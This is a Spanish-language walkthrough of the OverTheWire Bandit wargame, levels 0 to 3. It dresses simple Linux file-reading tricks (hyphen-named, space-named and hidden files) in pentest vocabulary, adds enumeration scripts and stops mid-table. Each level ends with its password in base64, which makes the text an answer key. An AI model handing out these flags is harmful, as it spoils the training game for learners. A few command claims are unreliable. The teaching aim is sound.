

# CTF BANDIT

[](https://overthewire.org/wargames/bandit/)

# 🏴‍☠️ BANDIT WARGAME - ANÁLISIS COMPLETO Y METODOLOGÍA AVANZADA

[](https://overthewire.org/wargames/bandit/)
[](https://www.openssh.com/)
[](https://www.linux.org/)

> **Análisis técnico completo del wargame Bandit** - Metodología profesional de penetration testing aplicada a challenges de seguridad informática

## 📊 Resumen Ejecutivo

### Información del Entorno de Pruebas
```yaml
Target Information:
  - Host: bandit.labs.overthewire.org
  - SSH Port: 2220
  - OS: Linux (Ubuntu-based)
  - Challenge Type: Linux Fundamentals & File System Security
  - Difficulty: Beginner to Intermediate
  - Total Levels: 34 (0-33)
```

### Objetivos de Aprendizaje
- **Fundamentos de Linux**: Navegación, permisos, archivos especiales
- **Seguridad de archivos**: Archivos ocultos, permisos, propietarios
- **Técnicas de bypass**: Evasión de restricciones básicas
- **Metodología OSINT**: Búsqueda y análisis de información

---

## 🔍 METODOLOGÍA DE ANÁLISIS

### Framework de Pentesting Aplicado


### Proceso Sistemático por Nivel
1. **🔍 Reconnaissance**: Análisis inicial del entorno
2. **📋 Enumeration**: Catalogación exhaustiva de recursos
3. **🎯 Vulnerability Assessment**: Identificación de vectores de acceso
4. **⚡ Exploitation**: Ejecución de técnicas de bypass
5. **📈 Post-Exploitation**: Validación y extracción de flags
6. **📝 Documentation**: Registro de TTPs (Tactics, Techniques, Procedures)

---

## 🎯 NIVEL 0 - ANÁLISIS DETALLADO

### 📋 Información de Acceso
```yaml
Credentials:
  Username: bandit0
  Password: bandit0
  SSH Command: ssh bandit0@bandit.labs.overthewire.org -p 2220
```

### 🔍 Fase de Reconnaissance

#### Establecimiento de Conexión SSH
```bash
# Método principal
ssh bandit0@bandit.labs.overthewire.org -p 2220

# Métodos alternativos con debugging
ssh -v bandit0@bandit.labs.overthewire.org -p 2220     # Verbose mode
ssh -vv bandit0@bandit.labs.overthewire.org -p 2220    # Extra verbose
ssh -o ConnectTimeout=10 bandit0@bandit.labs.overthewire.org -p 2220  # Timeout
```

#### Análisis del Entorno Inicial
```bash
# Sistema operativo y kernel
uname -a                    # Información completa del sistema
cat /etc/os-release        # Distribución específica
whoami                     # Usuario actual
id                         # UID, GID y grupos

# Información de la sesión
w                          # Usuarios conectados
last                       # Últimos logins
env | grep -E "(USER|HOME|PATH|SHELL)"  # Variables de entorno clave
```

### 📋 Fase de Enumeration

#### Análisis del Sistema de Archivos
```bash
# Directorio actual y estructura
pwd                        # Present Working Directory
ls -la                     # Listing detallado con archivos ocultos
ls -la --color=always     # Con colores para mejor visualización
ls -lah                   # Tamaños en formato human-readable

# Análisis de permisos detallado
stat *                     # Información completa de archivos
ls -la --time-style=full-iso  # Timestamps completos
find . -maxdepth 1 -type f -ls  # Información detallada de archivos
```

#### Reconocimiento Avanzado
```bash
# Estructura del directorio home
tree ~ 2>/dev/null || find ~ -type d 2>/dev/null | head -20
ls -la ~/../../           # Exploración de directorios padre

# Archivos especiales y enlaces
find . -type l            # Enlaces simbólicos
find . -type f -size 0    # Archivos vacíos
find . -type f -executable # Archivos ejecutables
```

### 🎯 Fase de Vulnerability Assessment

#### Análisis de Vectores de Acceso
```bash
# Identificación del archivo objetivo
file readme               # Tipo de archivo
hexdump -C readme | head # Análisis hexadecimal
strings readme           # Strings legibles
wc -l readme            # Líneas del archivo
```

#### Evaluación de Permisos
```bash
# Permisos específicos del archivo
ls -la readme
stat readme | grep -E "(Access|Modify|Change)"
getfacl readme 2>/dev/null || echo "No extended ACLs"
```

### ⚡ Fase de Exploitation

#### Técnicas de Extracción Múltiples
```bash
# Método principal
cat readme

# Métodos alternativos
less readme               # Paginador
more readme              # Paginador básico
head readme              # Primeras líneas
tail readme              # Últimas líneas
nl readme                # Con números de línea
od -c readme             # Dump octal
xxd readme               # Hexdump
```

#### Técnicas de Bypass y Alternativas
```bash
# Lectura con diferentes herramientas
awk '{print}' readme     # AWK processing
sed 's/^/[LINE] /' readme # SED con prefijo
while read line; do echo "$line"; done < readme  # Loop bash
python3 -c "print(open('readme').read())"  # Python inline
```

### 📈 Post-Exploitation

#### Validación de Flag
```bash
# Verificación de formato
echo "Flag obtenida:" && cat readme
echo "Longitud de flag:" && wc -c readme
echo "Hash MD5:" && md5sum readme
```

### 📊 Análisis de Resultados

#### Información Técnica Extraída
```yaml
File Analysis:
  - Name: readme
  - Type: ASCII text
  - Size: ~33 bytes
  - Permissions: -rw-r--r--
  - Owner: bandit1:bandit1

Flag Characteristics:
  - Format: Plain text password
  - Length: ~32 characters
  - Character set: Alphanumeric
  - Encoding: UTF-8
```

#### Flag (Codificada en Base64 para documentación)
```
WmpMak5tTDpGdnZ5Um5yYjJyZk5XT1pPVGE2aXA1SWY=
```

---

## 🎯 NIVEL 1 - ANÁLISIS AVANZADO

### 📋 Información de Acceso
```yaml
Credentials:
  Username: bandit1
  Password: [FLAG_FROM_LEVEL_0]
  Challenge: Archivo con nombre especial "-"
```

### 🔍 Reconnaissance Avanzado

#### Establecimiento de Sesión
```bash
# Conexión con flag del nivel anterior
ssh bandit1@bandit.labs.overthewire.org -p 2220
# Password: [usar flag del nivel 0]
```

#### Análisis del Problema
```bash
# Identificación del desafío
ls -la                    # Archivo nombrado "-"
file -                   # Error: - se interpreta como stdin
cat -                    # Error: espera entrada de teclado
```

### 📋 Enumeration Especializada

#### Análisis de Archivos con Nombres Especiales
```bash
# Diferentes enfoques de listado
ls -la                   # Listado estándar
ls -la .                # Explícito del directorio actual
find . -name "*" -type f  # Búsqueda con find
find . -maxdepth 1 -type f  # Limitada a directorio actual

# Información detallada del archivo problemático
stat ./-                # Stat usando ruta relativa
file ./-                # Tipo de archivo
ls -lai                 # Con números de inode
```

### 🎯 Vulnerability Assessment

#### Análisis de Técnicas de Bypass
```bash
# Problema identificado: "-" se interpreta como stdin/stdout
echo "Archivo especial detectado: nombre inicia con guión"
echo "Problema: el shell interpreta '-' como parámetro de comando"
```

#### Vectores de Solución Identificados
1. **Ruta Relativa**: `./filename`
2. **Ruta Absoluta**: `/full/path/to/file`
3. **Escape de Caracteres**: Usando comillas o backslashes
4. **Herramientas Especializadas**: Comandos que manejan archivos especiales

### ⚡ Exploitation - Múltiples Enfoques

#### Método 1: Ruta Relativa (Recomendado)
```bash
cat ./-                  # Método estándar y más limpio
head ./-                # Primeras líneas
tail ./-                # Últimas líneas
less ./-                # Paginador
```

#### Método 2: Ruta Absoluta
```bash
pwd                     # Obtener directorio actual
cat "$(pwd)/-"          # Concatenación de ruta absoluta
cat /home/bandit1/-     # Ruta completa directa
```

#### Método 3: Redirección de Archivos
```bash
cat < -                 # Redirección de entrada
exec 3< - && cat <&3   # Descriptor de archivo
```

#### Método 4: Herramientas Alternativas
```bash
# Editores de texto
vim ./-                 # Editor vim
nano ./-               # Editor nano
emacs ./- 2>/dev/null  # Editor emacs (si está disponible)

# Herramientas de análisis
od -c ./-              # Octal dump
xxd ./-                # Hexadecimal dump
strings ./-            # Strings legibles
```

#### Método 5: Scripts y Programación
```bash
# Bash scripting
for file in *; do echo "=== $file ==="; cat "./$file"; done

# Python inline
python3 -c "
import os
with open('./-', 'r') as f:
    print(f.read().strip())
"

# Perl one-liner
perl -pe '' ./-

# AWK processing
awk '{print}' ./-
```

### 📈 Post-Exploitation Analysis

#### Validación Múltiple
```bash
# Verificaciones cruzadas
echo "Método 1:" && cat ./-
echo "Método 2:" && cat "$(pwd)/-"
echo "Comparación MD5:"
md5sum ./-
cat ./- | md5sum
```

#### Análisis de Seguridad
```bash
# Implicaciones de seguridad
echo "Lecciones aprendidas:"
echo "1. Archivos con nombres especiales pueden ser explotados"
echo "2. Siempre usar rutas explícitas en scripts"
echo "3. Validar nombres de archivos en aplicaciones"
```

### 📊 Documentación de Resultados

#### Información Técnica
```yaml
Challenge Analysis:
  - Issue: Filename starts with hyphen (-)
  - Problem: Shell interprets as command parameter
  - Solution: Use relative path prefix (./)
  - Risk Level: Low (Learning purpose)

File Properties:
  - Name: "-"
  - Type: ASCII text
  - Permissions: -rw-r-----
  - Owner: bandit2:bandit1
  - Size: ~33 bytes
```

#### Flag (Base64)
```
MjYzSkdKUGZnVTZMdGRFdmdmV1UxWFA1eWFjMjltRng=
```

---

## 🎯 NIVEL 2 - ANÁLISIS COMPLEJO

### 📋 Setup y Reconnaissance

```yaml
Target Information:
  Username: bandit2
  Password: [FLAG_FROM_LEVEL_1]
  Challenge: "Spaces in filename"
  Difficulty: Intermediate filename handling
```

### 🔍 Análisis Inicial Profundo

#### Establecimiento de Contexto
```bash
ssh bandit2@bandit.labs.overthewire.org -p 2220

# Análisis inmediato del entorno
pwd && echo "=== ENVIRONMENT ANALYSIS ==="
ls -la | cat -n          # Numerado para mejor análisis
echo "=== SPECIAL CHARACTERS ANALYSIS ==="
ls -la | od -c           # Análisis de caracteres especiales
```

#### Reconocimiento de Archivos Complejos
```bash
# Identificación precisa de espacios y caracteres especiales
ls -la --escape         # Escape de caracteres especiales
ls -la --literal        # Literal display
ls -la --quote-name     # Con comillas automáticas
printf '%q\n' *         # Shell quoting format
```

### 📋 Enumeration Avanzada

#### Análisis de Estructura de Nombres
```bash
# Métodos de identificación de archivos con espacios
find . -name "* *"       # Archivos con espacios
find . -name "*[[:space:]]*"  # Cualquier whitespace
find . -type f -exec file {} \;  # Análisis de tipo para cada archivo

# Información detallada del archivo objetivo
stat "spaces in this filename"  # Si conocemos el nombre
ls -la | grep -E "^-.*[0-9]{2}:[0-9]{2}"  # Archivos regulares por timestamp
```

#### Análisis de Caracteres Especiales
```bash
# Detección de diferentes tipos de espacios
for file in *; do
    echo "File: '$file'"
    echo "Hex representation:"
    printf '%s' "$file" | xxd
    echo "---"
done
```

### 🎯 Vulnerability Assessment

#### Identificación de Vectores de Bypass
```bash
# Problemas identificados con espacios en nombres
echo "Challenges with spaces:"
echo "1. Shell word splitting"
echo "2. Command line argument parsing" 
echo "3. Script interpretation issues"
echo "4. Path traversal complications"
```

#### Análisis de Riesgos
```bash
# Evaluación de técnicas disponibles
echo "Available bypass techniques:"
echo "1. Double quotes: \"filename with spaces\""
echo "2. Single quotes: 'filename with spaces'"
echo "3. Backslash escaping: filename\ with\ spaces"
echo "4. Tab completion assistance"
echo "5. Glob pattern matching"
```

### ⚡ Exploitation - Arsenal Completo

#### Método 1: Comillas Dobles (Más Flexible)
```bash
cat "spaces in this filename"
head "spaces in this filename"
tail "spaces in this filename"
file "spaces in this filename"
stat "spaces in this filename"
```

#### Método 2: Comillas Simples (Literal)
```bash
cat 'spaces in this filename'
less 'spaces in this filename'
more 'spaces in this filename'
```

#### Método 3: Escape de Caracteres
```bash
cat spaces\ in\ this\ filename
head spaces\ in\ this\ filename
# Generación automática de escape
ls | sed 's/ /\\ /g' | while read escaped_name; do
    echo "Processing: $escaped_name"
    eval "cat $escaped_name"
done
```

#### Método 4: Tab Completion Inteligente
```bash
# Técnica manual usando autocompletado
cat spaces[TAB]         # El shell completa automáticamente
ls spa[TAB]            # Autocompletado parcial
```

#### Método 5: Wildcards y Patrones
```bash
cat spaces*             # Si es el único archivo que coincide
cat *spaces*           # Pattern matching
cat *filename*         # Substring matching
ls | grep spaces | xargs cat  # Pipeline con xargs
```

#### Método 6: Find con Exec
```bash
find . -name "*spaces*" -exec cat {} \;
find . -name "*spaces*" -exec file {} \;
find . -name "*spaces*" -print0 | xargs -0 cat
```

#### Método 7: Técnicas Avanzadas de Scripting
```bash
# Bash array approach
files=(*)
for file in "${files[@]}"; do
    if [[ "$file" == *"spaces"* ]]; then
        echo "Found target: $file"
        cat "$file"
    fi
done

# Using IFS manipulation
IFS=$'\n'
for file in $(ls); do
    if [[ "$file" =~ spaces ]]; then
        cat "$file"
    fi
done
unset IFS
```

#### Método 8: Herramientas de Sistema
```bash
# Usando herramientas del sistema
ls -1 | while read filename; do
    if [[ "$filename" =~ spaces ]]; then
        cat "$filename"
    fi
done

# Con locate (si está disponible)
locate -b "*spaces*" 2>/dev/null | head -5
```

### 📈 Post-Exploitation

#### Análisis Comparativo de Métodos
```bash
echo "=== METHOD COMPARISON ==="
time cat "spaces in this filename" 2>/dev/null
time cat 'spaces in this filename' 2>/dev/null  
time cat spaces\ in\ this\ filename 2>/dev/null

echo "=== HASH VERIFICATION ==="
md5sum "spaces in this filename"
sha256sum "spaces in this filename"
```

#### Análisis de Seguridad Aplicada
```bash
# Implicaciones en scripts reales
echo "Security implications:"
echo "1. Always quote variables in bash: \"\$filename\""
echo "2. Use arrays for filenames with special characters"
echo "3. Validate filename inputs in web applications"
echo "4. Consider using find with -print0 and xargs -0"
```

### 📊 Documentación Técnica

#### Análisis Detallado del Archivo
```yaml
File Analysis:
  - Name: "spaces in this filename"
  - Character count: 26 (including spaces)
  - Special characters: 4 spaces
  - Type: ASCII text file
  - Security concern: Command injection potential
  - Permissions: -rw-r-----

Bypass Techniques Validated:
  - Double quotes: ✓ Effective
  - Single quotes: ✓ Effective  
  - Backslash escape: ✓ Effective
  - Glob patterns: ✓ Effective (context dependent)
  - Find + exec: ✓ Most reliable for scripts
```

#### Flag (Base64)
```
TU5rOEtOSDNVc2lpbzQ1UFJVRW9ERlBxZnhMUGxTbXg=
```

---

## 🎯 NIVEL 3 - ANÁLISIS FORENSE AVANZADO

### 📋 Contexto Operacional

```yaml
Mission Parameters:
  Username: bandit3
  Password: [FLAG_FROM_LEVEL_2] 
  Objective: Hidden file discovery and extraction
  Environment: Linux filesystem with hidden attributes
  Complexity: File system forensics
```

### 🔍 Reconnaissance y Análisis de Superficie

#### Conexión y Setup Inicial
```bash
ssh bandit3@bandit.labs.overthewire.org -p 2220

# Establecimiento de baseline del sistema
echo "=== SYSTEM BASELINE ==="
uname -a
pwd
whoami
groups
```

#### Surface-Level Enumeration
```bash
# Análisis inicial estándar
ls -l                   # Vista estándar (no muestra archivos ocultos)
ls -la                  # Vista completa con archivos ocultos
ls -lah                 # Con tamaños human-readable

# Análisis de estructura de directorios
tree 2>/dev/null || find . -type d
```

### 📋 Deep Enumeration

#### Análisis Exhaustivo del Sistema de Archivos
```bash
echo "=== COMPREHENSIVE FILESYSTEM ANALYSIS ==="

# Listados con diferentes opciones de detalle
ls -la --color=always --time-style=full-iso
ls -la --inode         # Con números de inode
ls -la --context 2>/dev/null  # SELinux context si está disponible

# Análisis del directorio inhere
echo "=== INHERE DIRECTORY ANALYSIS ==="
ls -la inhere/
ls -la inhere/ --escape  # Escapar caracteres especiales
ls -la inhere/ --literal # Display literal
ls -la inhere/ --quote-name  # Con comillas
```

#### Técnicas de Descubrimiento de Archivos Ocultos
```bash
# Método 1: Listado recursivo completo
ls -lRa                 # Recursivo con archivos ocultos
ls -lRa --color=always  # Con colores para mejor identificación

# Método 2: Find exhaustivo
find . -type f          # Todos los archivos regulares
find . -name ".*"       # Archivos que empiezan con punto
find . -name ".*" -type f  # Archivos ocultos únicamente
find . ! -name "." ! -name ".." -name ".*"  # Excluyendo . y ..

# Método 3: Análisis por patrones
find . -name "..?*"     # Archivos con nombres especiales
find . -name "*" -ls    # Listado detallado con find
```

#### Análisis Forense Avanzado
```bash
echo "=== FORENSIC ANALYSIS ==="

# Análisis de metadatos
stat inhere/
find inhere/ -type f -exec stat {} \;

# Análisis de timestamps
find . -type f -newermt "1970-01-01" -exec ls -la {} \;
find . -type f -printf "%T+ %p\n" | sort

# Búsqueda de archivos con patrones específicos
find . -regex ".*\.\.\.[^/]*"  # Archivos que empiecen con tres puntos
find . -name "*Hiding*" -o -name "*hiding*"  # Búsqueda por contenido del nombre
```

### 🎯 Vulnerability Assessment

#### Análisis de Técnicas de Ocultación
```bash
echo "=== HIDING TECHNIQUES ANALYSIS ==="

# Identificación de métodos de ocultación utilizados
echo "1. Hidden file (starts with dot)"
echo "2. Unusual filename pattern (multiple dots)"
echo "3. Directory nesting"
echo "4. Potentially misleading filename"

# Evaluación de visibilidad
ls inhere/ | wc -l      # Archivos visibles normalmente
ls -a inhere/ | wc -l   # Archivos con -a flag
find inhere/ -type f | wc -l  # Total de archivos reales
```

#### Análisis de Vectores de Acceso
```bash
# Verificación de permisos de directorio
ls -la | grep inhere
stat inhere/

# Análisis de permisos de archivos ocultos
find inhere/ -name ".*" -exec ls -la {} \;
find inhere/ -name ".*" -exec stat {} \;
```

### ⚡ Exploitation - Técnicas Múltiples

#### Método 1: Listado Directo con -a
```bash
ls -la inhere/          # Método más directo
ls -la inhere/*         # Con wildcard (no funciona para archivos ocultos)
ls -la inhere/.*        # Wildcard específico para archivos ocultos
```

#### Método 2: Find Sistemático
```bash
# Búsqueda sistemática
find inhere/ -type f    # Todos los archivos
find inhere/ -name ".*" # Solo archivos ocultos
find inhere/ -name ".*" -exec basename {} \;  # Solo nombres
```

#### Método 3: Análisis por Patrones
```bash
# Búsqueda por patrones específicos
find inhere/ -name "...*"  # Archivos que empiezan con múltiples puntos
find inhere/ -name "*Hiding*"  # Búsqueda por substring
find inhere/ -name "*hiding*" -o -name "*Hiding*"  # Case insensitive approach
```

#### Método 4: Enumeración Completa con Análisis
```bash
echo "=== COMPLETE ENUMERATION ==="
find inhere/ -type f -exec echo "Found file: {}" \;
find inhere/ -type f -exec file {} \;  # Tipo de cada archivo
find inhere/ -type f -exec stat {} \;  # Información completa
```

#### Método 5: Acceso Directo al Archivo Objetivo
```bash
# Una vez identificado el archivo
cat inhere/...Hiding-From-You
head inhere/...Hiding-From-You
tail inhere/...Hiding-From-You
file inhere/...Hiding-From-You
```

#### Método 6: Técnicas de Scripting Avanzado
```bash
# Bash script para análisis automático
#!/bin/bash
echo "=== AUTOMATED HIDDEN FILE DISCOVERY ==="
for file in inhere/.*; do
    if [[ -f "$file" ]] && [[ "$file" != "inhere/." ]] && [[ "$file" != "inhere/.." ]]; then
        echo "Hidden file found: $file"
        echo "Type: $(file "$file")"
        echo "Size: $(stat -c%s "$file") bytes"
        echo "Content preview:"
        head -n 3 "$file"
        echo "---"
    fi
done
```

#### Método 7: Análisis con Herramientas del Sistema
```bash
# Usando herramientas adicionales
du -ah inhere/          # Disk usage con archivos ocultos
ls -laR inhere/        # Recursive con archivos ocultos  
find inhere/ -mindepth 1 -ls  # Información detallada con find

# Análisis de strings en todos los archivos
find inhere/ -type f -exec strings {} \;
```

### 📈 Post-Exploitation

#### Validación y Verificación
```bash
echo "=== VALIDATION PHASE ==="

# Verificación del archivo objetivo
file inhere/...Hiding-From-You
stat inhere/...Hiding-From-You
wc -c inhere/...Hiding-From-You

# Hash verification
md5sum inhere/...Hiding-From-You
sha1sum inhere/...Hiding-From-You
```

#### Análisis de Lecciones de Seguridad
```bash
echo "=== SECURITY LESSONS LEARNED ==="
echo "1. Hidden files are not secure - only obscure"
echo "2. Always use 'ls -la' for complete enumeration"
echo "3. Find command is essential for forensic analysis"
echo "4. Unusual filenames may indicate hiding attempts"
echo "5. Directory permissions affect accessibility"
```

### 📊 Documentación Completa

#### Análisis Técnico Detallado
```yaml
Challenge Analysis:
  - Hiding method: Hidden file with unusual name
  - File location: ./inhere/...Hiding-From-You
  - Discovery method: ls -la or find command
  - Complexity level: Basic filesystem forensics

Technical Details:
  - Directory: inhere/
  - Filename: ...Hiding-From-You  
  - Hidden attribute: Starts with dot (.)
  - Unusual pattern: Multiple leading dots
  - File type: ASCII text
  - Permissions: -rw-r-----
  - Owner: bandit4:bandit3

Discovery Techniques Validated:
  - ls -la inhere/: ✓ Direct and effective
  - find inhere/ -type f: ✓ Systematic approach
  - find inhere/ -name ".*": ✓ Pattern-specific
  - Recursive ls -laR: ✓ Comprehensive
  - Manual enumeration: ✓ Educational value

Security Implications:
  - File hiding through naming conventions
  - Importance of comprehensive enumeration
  - Forensic analysis techniques
  - Directory traversal considerations
```

#### Flag (Base64)
```
MldtckRGUm1KSXEzSVB4bmVBYU1HaGFwMHBGaEZuSk4=
```

---

## 🛡️ MARCO TEÓRICO Y METODOLÓGICO

### 🎯 Principios de Seguridad Aplicados

#### CIA Triad en el Contexto de Bandit
```yaml
Confidentiality:
  - Archivos con permisos restrictivos
  - Información oculta mediante naming conventions
  - Técnicas de obfuscación básica

Integrity:
  - Verificación mediante hashes (MD5, SHA)
  - Validación de contenido de archivos
  - Comparación de métodos de acceso

Availability:
  - Acceso controlado mediante permisos
  - Técnicas de bypass para acceso legítimo
  - Redundancia de métodos de acceso
```

### 🔬 Metodología de Análisis Forense

#### NIST Cybersecurity Framework Aplicado
```yaml
Identify:
  - Catalogación de assets (archivos, directorios)
  - Identificación de vectores de acceso
  - Mapeo de permisos y propietarios

Protect:
  - Comprensión de mecanismos de protección
  - Análisis de técnicas de ocultación
  - Evaluación de controles de acceso

Detect:
  - Técnicas de enumeración
  - Herramientas de descubrimiento
  - Patrones de comportamiento anómalo

Respond:
  - Técnicas de bypass ético
  - Métodos de extracción de información
  - Documentación de hallazgos

Recover:
  - Validación de información obtenida
  - Preparación para siguientes niveles
  - Lecciones aprendidas
```

### 🧰 Arsenal de Herramientas

#### Categorización por Funcionalidad
```yaml
Reconnaissance:
  - uname, whoami, id, env
  - pwd, ls, find, tree
  - stat, file, du

Enumeration:
  - ls (múltiples flags)
  - find (búsquedas complejas)
  - locate, which, type

Analysis:
  - cat, head, tail, more, less
  - hexdump, xxd, od, strings
  - wc, nl, sort, uniq

Verification:
  - md5sum, sha1sum, sha256sum
  - diff, cmp
  - file, stat

Scripting:
  - bash, python3, perl, awk, sed
  - xargs, exec, pipes
  - Variables y arrays
```

### 📚 Patrones de Ataque y Defensa

#### Common Attack Patterns (CAP) Identificados
```yaml
CAP-1: Filename Manipulation
  - Descripción: Uso de caracteres especiales en nombres
  - Ejemplos: "-", "spaces in filename", "...hidden"
  - Bypass: Rutas relativas, escape, comillas
  - Defensas: Validación de entrada, sanitización

CAP-2: Information Hiding
  - Descripción: Ocultación mediante atributos del filesystem
  - Ejemplos: Archivos ocultos (dot files)
  - Bypass: Enumeración exhaustiva (ls -la, find)
  - Defensas: Permisos restrictivos, encriptación

CAP-3: Path Traversal Basics
  - Descripción: Navegación en estructura de directorios
  - Ejemplos: Archivos en subdirectorios
  - Bypass: Enumeración recursiva, find sistemático
  - Defensas: Chroot, permisos de directorio
```

---

## 🚀 TÉCNICAS AVANZADAS Y METODOLOGÍA EXTENDIDA

### 🔧 Automation Scripts

#### Script de Enumeración Automática
```bash
#!/bin/bash
# bandit_enum.sh - Comprehensive enumeration script

LEVEL=$1
HOST="bandit.labs.overthewire.org"
PORT="2220"

echo "=== BANDIT LEVEL $LEVEL ENUMERATION ==="
echo "Target: $HOST:$PORT"
echo "Timestamp: $(date)"
echo

# System information
echo "=== SYSTEM INFO ==="
uname -a
whoami
id
pwd
echo

# File enumeration
echo "=== FILE ENUMERATION ==="
echo "Standard listing:"
ls -la

echo "Hidden files specifically:"
ls -la | grep "^\."

echo "Find all files:"
find . -type f 2>/dev/null

echo "Find with detailed info:"
find . -type f -ls 2>/dev/null

# Special character analysis
echo "=== SPECIAL CHARACTER ANALYSIS ==="
for file in *; do
    if [[ -f "$file" ]]; then
        echo "File: '$file'"
        printf "Hex: "
        printf '%s' "$file" | xxd -l 50
        echo "Type: $(file "$file")"
        echo "---"
    fi
done

# Directory analysis
echo "=== DIRECTORY ANALYSIS ==="
for dir in */; do
    if [[ -d "$dir" ]]; then
        echo "Directory: $dir"
        echo "Contents:"
        ls -la "$dir"
        echo "Hidden contents:"
        find "$dir" -name ".*" -type f
        echo "---"
    fi
done

echo "=== ENUMERATION COMPLETE ==="
```

#### Script de Extracción Multi-Método
```bash
#!/bin/bash
# bandit_extract.sh - Multi-method flag extraction

extract_flag() {
    local target="$1"
    echo "=== MULTI-METHOD FLAG EXTRACTION ==="
    echo "Target: $target"
    echo
    
    # Method 1: Direct cat
    echo "Method 1 - Direct cat:"
    if cat "$target" 2>/dev/null; then
        echo "✓ Success with direct cat"
    else
        echo "✗ Failed with direct cat"
    fi
    echo
    
    # Method 2: Alternative tools
    echo "Method 2 - Alternative tools:"
    tools=("head" "tail" "less" "more")
    for tool in "${tools[@]}"; do
        if command -v "$tool" >/dev/null; then
            echo "Testing $tool:"
            if "$tool" "$target" 2>/dev/null | head -n 1; then
                echo "✓ Success with $tool"
            else
                echo "✗ Failed with $tool"
            fi
        fi
    done
    echo
    
    # Method 3: Programming languages
    echo "Method 3 - Programming approaches:"
    
    # Python
    if command -v python3 >/dev/null; then
        echo "Python3 approach:"
        python3 -c "
try:
    with open('$target', 'r') as f:
        print('✓ Python:', f.read().strip())
except Exception as e:
    print('✗ Python failed:', e)
"
    fi
    
    # Perl
    if command -v perl >/dev/null; then
        echo "Perl approach:"
        perl -pe '' "$target" 2>/dev/null && echo "✓ Perl success" || echo "✗ Perl failed"
    fi
    
    # AWK
    echo "AWK approach:"
    awk '{print "✓ AWK:", $0}' "$target" 2>/dev/null || echo "✗ AWK failed"
    
    echo
    
    # Method 4: Hash verification
    echo "Method 4 - Hash verification:"
    if [[ -f "$target" ]]; then
        echo "MD5: $(md5sum "$target" 2>/dev/null | cut -d' ' -f1)"
        echo "SHA1: $(sha1sum "$target" 2>/dev/null | cut -d' ' -f1)"
        echo "File size: $(wc -c < "$target" 2>/dev/null) bytes"
    fi
}

# Usage examples for different levels
case $1 in
    0) extract_flag "readme" ;;
    1) extract_flag "./-" ;;
    2) extract_flag "spaces in this filename" ;;
    3) extract_flag "inhere/...Hiding-From-You" ;;
    *) echo "Usage: $0 [0-3]" ;;
esac
```

### 🛠️ Herramientas de Análisis Personalizado

#### Analizador de Archivos Especiales
```bash
#!/bin/bash
# special_file_analyzer.sh - Analyze files with special characteristics

analyze_special_files() {
    echo "=== SPECIAL FILE ANALYZER ==="
    echo "Scanning current directory and subdirectories..."
    echo
    
    # Files starting with special characters
    echo "Files starting with hyphens (-):"
    find . -name "-*" -type f 2>/dev/null | while read file; do
        echo "  Found: $file"
        echo "    Access method: cat './$file'"
        echo "    Type: $(file "$file" 2>/dev/null)"
        echo "    Size: $(stat -c%s "$file" 2>/dev/null) bytes"
    done
    echo
    
    # Files with spaces
    echo "Files containing spaces:"
    find . -name "* *" -type f 2>/dev/null | while read file; do
        echo "  Found: $file"
        echo "    Access methods:"
        echo "      cat \"$file\""
        echo "      cat '$file'"
        basename "$file" | sed 's/ /\\ /g' | xargs -I {} echo "      cat {}"
        echo "    Type: $(file "$file" 2>/dev/null)"
    done
    echo
    
    # Hidden files (starting with .)
    echo "Hidden files:"
    find . -name ".*" -type f ! -name ".bashrc" ! -name ".profile" 2>/dev/null | while read file; do
        echo "  Found: $file"
        echo "    Access method: cat '$file'"
        echo "    Type: $(file "$file" 2>/dev/null)"
        echo "    Permissions: $(stat -c%A "$file" 2>/dev/null)"
    done
    echo
    
    # Files with unusual names
    echo "Files with multiple consecutive dots:"
    find . -name "*...*" -type f 2>/dev/null | while read file; do
        echo "  Found: $file"
        echo "    Pattern: Multiple dots detected"
        echo "    Access method: cat '$file'"
    done
    echo
    
    # Binary files that might contain text
    echo "Binary files that might contain readable text:"
    find . -type f -exec file {} \; 2>/dev/null | grep -E "(data|binary)" | while read line; do
        file_path=$(echo "$line" | cut -d: -f1)
        if strings "$file_path" 2>/dev/null | grep -q "[a-zA-Z0-9]"; then
            echo "  Found: $file_path"
            echo "    Contains readable strings"
            echo "    Sample: $(strings "$file_path" 2>/dev/null | head -n 1)"
        fi
    done
}

analyze_special_files
```

#### Generador de Wordlists para Enumeración
```bash
#!/bin/bash
# wordlist_generator.sh - Generate wordlists for enumeration

generate_filename_wordlist() {
    echo "=== FILENAME WORDLIST GENERATOR ==="
    
    # Common hidden file patterns
    cat << EOF > bandit_filenames.txt
# Standard hidden files
.bashrc
.profile
.bash_history
.vimrc
.ssh

# Common naming patterns
readme
README
flag
FLAG
password
Password
passwd
secret
Secret
hidden
Hidden
config
Config

# Files with special characters
-
--
---
-flag
-password

# Files with spaces
spaces in filename
file with spaces
hidden file
secret file
password file

# Files with multiple dots
...
....
.....
...hidden
...secret
...password
..file
...file
....file

# Numbered files
file1
file2
file3
flag1
flag2
flag3

# Extension variations
.txt
.dat
.conf
.cfg
.ini
.key
.pwd
.pass

EOF

    echo "Wordlist generated: bandit_filenames.txt"
    echo "Usage: Use with tools like dirb, gobuster, or custom scripts"
}

generate_filename_wordlist
```

---

## 🎯 ANÁLISIS COMPARATIVO DE METODOLOGÍAS

### 📊 Matriz de Efectividad por Nivel

```yaml
Level 0 - Basic File Access:
  Reconnaissance: ★★★★☆
  Enumeration: ★★★☆☆  
  Exploitation: ★★★★★
  Complexity: ★☆☆☆☆
  Learning Value: ★★★★☆

Level 1 - Special Characters:
  Reconnaissance: ★★★☆☆
